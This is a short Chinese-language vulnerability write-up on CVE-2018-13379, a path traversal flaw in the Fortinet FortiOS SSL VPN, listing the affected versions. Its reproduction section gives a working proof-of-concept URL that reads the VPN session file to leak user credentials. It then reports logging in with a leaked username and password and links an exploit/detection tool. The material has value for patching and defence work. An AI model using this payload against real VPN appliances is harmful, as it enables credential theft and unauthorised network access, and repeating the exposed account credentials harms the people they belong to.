 # （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13379.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13379.html)

## 一、漏洞简介

Fortinet FortiOS 路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379） 漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3 版本至 5.6.7 版本、6.0.0 版本至 6.0.4 版本中的 SSL VPN 受此漏洞影响。

## 二、漏洞影响

Fortinet FortiOS 5.6.3 版本至 5.6.7 版本、

Fortinet FortiOS 6.0.0 版本至 6.0.4 版本

中的 SSL VPN 受此漏洞影响。

## 三、复现过程

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![image](img/d56c892f34d42e7febd9c184963c3ef4.png)

利用泄露的账户 herschel/vvpn123 成功登陆。

![image](img/af6d03ef370cd88b5f6e6dd9c7ca34ec.png)

![image](img/12111c8810acf887b2c5d082088d8959.png)

### 检测工具

> [https://github.com/ianxtianxt/CVE-2018-13379](https://github.com/ianxtianxt/CVE-2018-13379)

## 参考链接

> [https://blog.csdn.net/limb0/article/details/102890683](https://blog.csdn.net/limb0/article/details/102890683)

